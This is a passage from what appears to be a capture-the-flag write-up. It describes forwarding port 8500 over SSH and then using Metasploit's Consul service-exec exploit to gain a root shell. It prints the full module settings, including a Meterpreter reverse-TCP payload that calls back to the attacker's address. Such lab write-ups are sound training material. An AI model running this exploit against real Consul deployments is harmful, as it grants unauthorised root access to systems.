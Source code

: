 
To access this service we must add a port forward that forwards port 8500 back to us. This is because this service is only listening inside the machine and we are not able to access it from outside. Port forwarding allows us to interact with these services from our own machine. To perform this port forward we can hit `Enter + ~C` to enter ssh command line and then add the portforward with `-L 8500:localhost:8500` This will forward port 8500 to us which is used to interact with the service. 

We can then use msfconsole's multi/misc/consul_service_exec exploit to grant us a root shell. The options I used can be found below. They are mostly default with the main change that RHOSTS is localhost as we had to use portforwarding. 

```
Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACL_TOKEN                   no        Consul Agent ACL token
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks4, socks5, sapni, socks5h, http
   RHOSTS     localhost        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8500             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.10      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux

```
